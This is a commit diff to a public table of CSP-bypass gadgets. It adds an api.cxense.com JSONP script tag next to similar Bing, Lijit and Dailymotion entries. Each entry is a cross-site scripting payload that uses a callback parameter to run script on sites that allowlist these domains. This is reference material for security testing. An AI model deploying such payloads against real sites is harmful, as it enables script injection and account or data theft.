

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown; the shorter side is filled out with more unchanged rows; long unchanged cells end in ….

Commit message:
Added api.cxense.com

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -7,2 +7,3 @@ ap.lijit.com	<script src="https://ap.lijit.com/rtb/bid?callback=alert&br={%22id%
 api.bing.com	<script src="https://api.bing.com/osjson.aspx?query=x&JsonType=callback&JsonCallback=alert"></script>
+api.cxense.com	<script src="https://api.cxense.com/profile/user/segment?callback=alert"></script>
 api.dailymotion.com	<script src="https://api.dailymotion.com/video/x5gv6be?callback=alert()"></script>
```
